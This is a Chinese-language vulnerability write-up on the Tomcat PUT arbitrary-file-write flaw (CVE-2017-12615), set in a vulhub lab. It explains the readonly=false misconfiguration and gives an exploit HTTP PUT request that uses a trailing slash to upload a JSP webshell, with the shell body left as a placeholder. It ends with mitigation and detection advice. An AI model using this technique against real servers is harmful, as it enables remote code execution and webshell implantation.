


# 漏洞名称：Tomcat PUT方法任意写文件漏洞


---

## 漏洞介绍

> [国家信息安全漏洞库 (cnnvd.org.cn)](http://www.cnnvd.org.cn/index.html)

---

Apache Tomcat是美国阿帕奇（Apache）软件基金会下属的Jakarta项目的一款轻量级Web应用服务器，它主要用于开发和调试JSP程序，适用于中小型系统。部分版本的Tomcat启用HTTP PUT请求方法时，远程攻击者可以构造恶意请求利用该漏洞向服务器上传包含任意代码执行的jsp文件，并被服务器执行该文件，导致攻击者可以执行任意代码。

---

### 漏洞危害

攻击者有可能可通过精心构造的攻击请求向服务器上传包含任意代码的 JSP 文件，之后JSP 文件中的代码将能被服务器执行。

---

### 影响范围

7.0.0<=Version <=7.0.79

---

## 漏洞原理

Tomcat 的 Servlet 是在 conf/web.xml 配置的，通过配置文件可知，漏洞本质Tomcat配置了可写（readonly=false），导致我们可以往服务器写文件：

```
    <servlet>
        <servlet-name>default</servlet-name>
        <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
        <init-param>
            <param-name>debug</param-name>
            <param-value>0</param-value>
        </init-param>
        <init-param>
            <param-name>listings</param-name>
            <param-value>false</param-value>
        </init-param>
<init-param><param-name>readonly</param-name><param-value>false</param-value></init-param>
        <load-on-startup>1</load-on-startup>
    </servlet>
```

当后缀名为 .jsp 和 .jspx 的时候，是通过JspServlet处理请求的。例如`1.jsp `（末尾有一个空格）并不能匹配到 JSP Servlet，而是会交由default Servlet去处理。

```
<!-- The mapping for the default servlet -->
    <servlet-mapping>
        <servlet-name>default</servlet-name>
        <url-pattern>/</url-pattern>
    </servlet-mapping>

    <!-- The mappings for the JSP servlet -->
    <servlet-mapping>
        <servlet-name>jsp</servlet-name>
        <url-pattern>*.jsp</url-pattern>
        <url-pattern>*.jspx</url-pattern>
    </servlet-mapping>
```

虽然Tomcat对文件后缀有一定检测（不能直接写jsp），但我们使用一些文件系统的特性（如Linux下可用`/`）来绕过了限制。


---

### 靶机环境

vulhub/tomcat/CVE-2017-12615

---

### 利用方式 1

使用PUT请求发送以下内容：

```
PUT /1.jsp/ HTTP/1.1
Host: 192.168.1.189:8090
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 958

--jsp shell--
```



然后利用蚁剑进行连接：



### 

---


## 威胁防护建议

---

### 用户处置建议

将 conf/web.xml 中对于 DefaultServlet 的 readonly 设置为 true

---

### 安全产品检测建议

检测PUT形式发送后缀名为jsp的请求

检测jsp格式的木马

